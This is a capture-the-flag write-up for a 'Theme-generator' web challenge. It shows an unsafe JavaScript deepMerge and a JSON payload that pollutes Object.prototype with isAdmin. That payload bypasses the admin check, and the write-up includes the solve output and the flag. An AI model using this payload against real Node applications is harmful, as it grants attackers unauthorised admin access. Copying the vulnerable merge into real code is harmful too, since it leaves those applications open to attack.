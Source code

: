 # Theme-generator

![Proof](proof.png)

**Author:** `thek0der`  
**Solves:** 56

**writeup made by** `lifip27`
---

## Description

Just a simple theme generator app. Nothing fancy.

We get: `handout.zip`
---

## Vulnerability

1. Unsafe custom deep-merge → Prototype Pollution
The application merges uploaded JSON into an internal configuration using a home-grown `deepMerge` implementation similar to:
```js
function deepMerge(target, source) {
  for (const k in source) {
    const val = source[k];
    if (val && typeof val === 'object' && !Array.isArray(val)) {
      if (!target[k]) target[k] = {};
      deepMerge(target[k], val);
    } else {
      target[k] = val;
    }
  }
  return target;
}
```
**The problem**:
It iterates `for (const k in source)` and does not filter or validate property names.
When `k` resolves to special properties like `constructor` or `__proto__`, `target[k]` can refer to inherited JS built-ins. Recursing into them allows writing onto `Object.prototype`.
Example dangerous input (conceptually):
```json
{ "constructor": { "prototype": { "isAdmin": true } } }
```
After merge, `Object.prototype.isAdmin === true`.

2. Authorization logic is bypassable via polluted prototype
The app proves vulnerable because admin-check logic uses a simple property check:
```js
if (req.user.isAdmin === true) { /* allow admin */ }
```
If `Object.prototype.isAdmin` is set to `true`, then `req.user.isAdmin` will resolve via the prototype chain to `true` for any `req.user`, elevating privileges for any logged-in user (including `guest`).

## Solve:

We can try a payload like this one:
```python
payload = {
        "a": { "b": { "c": {
            "constructor": { "prototype": { "isAdmin": True } }
        } } }
    }
```

And when we run the `solve.py`:
```bash
python .\solve.py
logged in
send
upload status: 200
{"ok":true,"merged":{"theme":{"name":"light","colors":{"bg":"#fff","fg":"#111","isAdmin":true},"isAdmin":true},"options":{"compact":false,"isAdmin":true},"isAdmin":true,"a":{"b":{"c":{"isAdmin":true},"isAdmin":true},"isAdmin":true}}}
flag: ctf{fa82311c2970593b2df929b7d0f1ca6292a9a2d3707057b84a5127ceed38edd6}
```

### Flag: ctf{fa82311c2970593b2df929b7d0f1ca6292a9a2d3707057b84a5127ceed38edd6}